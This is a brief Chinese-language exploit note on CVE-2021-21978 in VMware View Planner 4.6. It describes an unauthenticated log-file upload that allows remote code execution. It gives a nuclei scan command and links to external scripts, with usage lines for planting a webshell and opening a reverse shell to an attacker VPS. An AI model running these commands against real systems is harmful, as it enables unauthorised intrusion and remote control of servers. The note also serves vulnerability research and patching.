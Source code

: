 ## 漏洞概述

VMware View Planner Web管理界面存在一个上传日志功能文件的入口，没有进行认证且写入的日志文件路径用户可控，通过覆盖上传日志功能文件`log_upload_wsgi.py`，即可实现RCE

## 影响范围

```http
VMware View Planner 4.6
```

## POC

```bash
nuclei -tags vmware -t cves/ -l urls.txt

Goby
```

## EXP

1、写webshell [@skytina](https://github.com/skytina/CVE-2021-21978)

```bash
python CVE-2021-21978.py https://192.168.80.3
```

2、反弹shell [@me1ons](https://github.com/me1ons/CVE-2021-21978)

```bash
python re-shell.py -u 目标IP -v VPS-IP -p 1234
```


